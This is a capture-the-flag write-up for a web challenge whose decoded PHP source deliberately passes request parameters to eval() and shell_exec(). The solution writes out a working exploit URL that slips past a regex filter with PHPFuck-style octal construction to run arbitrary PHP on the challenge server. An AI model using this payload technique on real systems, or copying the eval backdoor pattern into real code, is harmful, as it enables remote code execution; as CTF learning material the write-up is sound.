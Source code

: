 ```yaml
---
layout: post
title: Until the end
description: (([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])
permalink: /SecChall21/web/unTILDEend
tags: web secchallenge
hidden: 1
---
```


## Description

In part2 of Road to Valhalla you found the URL of the server that contains the coordinates of Valhalla. You open the site and see the title of the page “Only those who endure until the end”. So be it traveler endure till the end and you will have your reward!

[https://until-the-end.secchallenge.crysys.hu](https://until-the-end.secchallenge.crysys.hu)

- Author: Pepe
- Difficulty: medium

## Solution

Opening the page, I was greeted with what seemed like `JSFuck`. Oh great, like there wasn't enough brainfuck yet. Turns out, after quite some stupidity and little googling, there exists a language called `PHPFuck`. Wanna know the two differences between the two?

- PHPFuck has an extra `^` symbol in its syntax
- PHPFuck doesn't have a `UnFucker` like JSFuck has [one](http://codertab.com/JsUnFuck)

Alright, let's write an Unfucker in python, what could go wrong? Spoilers: a lot. After wasting about what seemed like a decade, I decided to just search and replace all characters, starting from the longest and going one by one, characters ordered descending by length. This took way less time then trying to automate it. It was like opening a Treasure Chest, the code revealed itself.

```php
<?php

if (isset($_GET[' '])) {
    eval(str_replace('a', str_replace('kekw'), str_rot13(strtoupper(substr($_GET[' '], 42, 69)))));
}
else if (isset($_GET['+'])) {
        if (preg_match('/[b-d\\-0-9H-LA-DU-Xi-kn-s!?TEz.]/', $_GET['+'])) die();
        eval($_GET['+']);
    }
else {
        die();
        shell_exec($_GET['cmd']);
}
?>  
```

Looking at the the code, I soon realized: The only way through this, is through the `preg_match()`. Looking at it in an [online tool](https://regex101.com/), and trying out different things I may want to `eval()` on the server, I quickly realized its not really gonna work, with this much limitations.

Then it dawned on me, `PHPFuck` is the way. The only problem? We can't use `.`, which is kinda in a lot of elements. Workaround time: I could define numbers with the help of PHPFuck, then use numbers inside an other `eval()` (Thank God eval went through the regex) to construct the exploit string via octal chars. So I started with the numbers:
```php
$a=[]^[]; #0
$aa=(([]^[[]])); #1
$aaa=(([]^[[]])+([]^[[]])); #1 + 1 = 2
$aaaa=(([]^[[]])+([]^[[]])+([]^[[]]));
$aaaaa=(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]));
$aaaaaa=(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]));
$aaaaaaa=(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]));
$aaaaaaaa=(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]));
$aaaaaaaaa=(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]));
$aaaaaaaaaa=(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]));
```
Hopefully you see the pattern :)

Once I had this laying around, we could just use it inside another eval, to construct something like `\145\166\141\154\50\44\137\107\105\124\133\47\143\155\144\47\135\51\73` which would translate to `$_GET['cmd']` which would then be inputed yet into another `eval` finally letting us execute anything we want.

Getting the page printed by `phpinfo()` would look like this:
```
https://until-the-end.secchallenge.crysys.hu/?%2b=%24a=[]^[];%24aa=(([]^[[]]));%24aaa=(([]^[[]])%2b([]^[[]]));%24aaaa=(([]^[[]])%2b([]^[[]])%2b([]^[[]]));%24aaaaa=(([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]]));%24aaaaaa=(([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]]));%24aaaaaaa=(([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]]));%24aaaaaaaa=(([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]]));%24aaaaaaaaa=(([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]]));%24aaaaaaaaaa=(([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]])%2b([]^[[]]));%24F="eval(%5c"%5c%5c%24aa%24aaaaa%24aaaaaa%5c%5c%24aa%24aaaaaaa%24aaaaaaa%5c%5c%24aa%24aaaaa%24aa%5c%5c%24aa%24aaaaaa%24aaaaa%5c%5c%24aaaaaa%24a%5c%5c%24aaaaa%24aaaaa%5c%5c%24aa%24aaaa%24aaaaaaaa%5c%5c%24aa%24a%24aaaaaaaa%5c%5c%24aa%24a%24aaaaaa%5c%5c%24aa%24aaa%24aaaaa%5c%5c%24aa%24aaaa%24aaaa%5c%5c%24aaaaa%24aaaaaaaa%5c%5c%24aa%24aaaaa%24aaaa%5c%5c%24aa%24aaaaaa%24aaaaaa%5c%5c%24aa%24aaaaa%24aaaaa%5c%5c%24aaaaa%24aaaaaaaa%5c%5c%24aa%24aaaa%24aaaaaa%5c%5c%24aaaaaa%24aa%5c%5c%24aaaaaaaa%24aaaa%5c");";eval(%24F);&cmd=phpinfo();
```

Are we done yet? Sir! No Sir! Why? Answers are hidden in the `phpinfo` page. There aren't as many Pokemons as there are `disable_functions` entries on this site. Luckily after not too much search, I found the function I needed, and ran a new command: (For obvious reasons, here's only the cmd part of the query)
```
foreach(scandir(".") as $file) echo $file."<br>";
```

This command appends the files and directories found where index.php is located:
```bash
.
..
index.php
very_secret_hidden_folder_N0P3
```

Visiting the last entry, gives us the flag (as well as a hidden easter egg), thank god we endured:
```
cd21{HIDDEN}
```

P.S.: There's also another solution, which I wasn't smart enough to find, but is much shorter and less painful. Thanks Pepe for showing that to me, right after my 2 day duel with this one LUL.

[&#8592; Back to SecChallenge21](/SecChall21)